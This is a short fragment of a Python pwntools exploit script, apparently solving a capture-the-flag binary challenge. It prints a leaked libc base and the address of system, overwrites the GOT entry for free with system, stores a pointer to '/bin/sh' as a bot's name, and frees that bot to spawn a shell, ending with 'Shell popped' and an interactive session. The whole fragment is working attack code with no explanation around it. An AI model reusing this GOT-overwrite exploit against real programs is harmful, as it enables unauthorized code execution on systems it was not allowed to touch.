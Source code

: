 ```python

	print('libc base addr @', hex(libc.address))
	print('system addr    @', hex(system))

	print(p.recvuntil(b'choice :').decode(), '3')
	p.send(b'3')					# exit now calls change name, so overwrite GOT free with system
	print(p.recvuntil(b'name:').decode(), p64(system))
	p.send(p64(system))

	change_name('2', p64(next(libc.search(b'/bin/sh\x00'))))

	remove_bot('2')				# call system with binsh (system('/bin/sh\0'))

	print('[+] Shell popped')

	break

p.interactive()
```